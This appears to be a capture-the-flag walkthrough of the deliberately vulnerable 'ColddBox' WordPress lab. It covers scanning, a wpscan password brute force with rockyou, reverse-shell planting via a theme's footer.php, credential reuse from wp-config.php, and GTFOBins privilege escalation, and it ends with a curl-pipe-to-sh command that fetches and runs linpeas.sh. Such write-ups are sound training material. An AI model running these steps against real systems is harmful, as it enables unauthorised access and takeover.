**Category:** Web
**Author:** *Harsh Sharma*

# ColddBox

## Enumeration using nmap 
`nmap -sV -sC -p- 10.10.92.255`



## Dir enumeration

`gobuster dir -u 10.10.92.255 -w /usr/share/dirb/wordlists/common.txt -x html,php -q`



It's a worpress site : 4.1.31 (helpful later)

## Exploiting wordpress

There's a hidden directory, let's search that first


The usual credentials didn't work


But looking at the version, it has multiple vulns and appears to be exploitable -


let's use the exploit -
`cp /usr/share/exploitdb/exploits/php/webapps/41497.php exploit.php`

did not work, let's try an alternate approach

### Using WPscan

`wpscan --url 10.10.92.255 -e | tee wpscan.log`

found some users. let's try to brute force passwords.

As we remember from before, Coldd is a main user, so let's try his username -

`wpscan --url 10.10.92.255 -U c0ldd -P /usr/share/wordlists/rockyou.txt | tee wpuser.log`



and we find the password, let's log in-

## WP exploitation
we found an upload page:


let's try to upload a reverse shell from `*revshells.com*` -


and .php is blocked


workaround? let's try a different and uncommon filetype compatible with php


it appears there's a filtering for specific-media types only, let's poke around more-


Found th 404.php, header, footer and other php page, we can exploit this


Edited footer.php with above



netcat listener -


to run it, let's try to refresh ths site...

and voila, we get the shell-


let's find the file -




nothing much in there, let's take a step back and explore the file system-


there are some folders to which we can read and write but they are a dead end too, however we can use them to run linpeas.sh
OR 
we can get a tty and continue manual priv. esc.



unsuccessful :(

finally after poking around for a while, i was able to locate some credentials in `var/www/html/wp-config.php`




after sshing with the same password -


and gtfo bin-




and we can navigate to root folder to get the root access! :D

**NOTE:**
We can also try to exploit chmod along with vim and to get details for priv escalation, we can use linpeas.sh which is as follows -

`curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh`

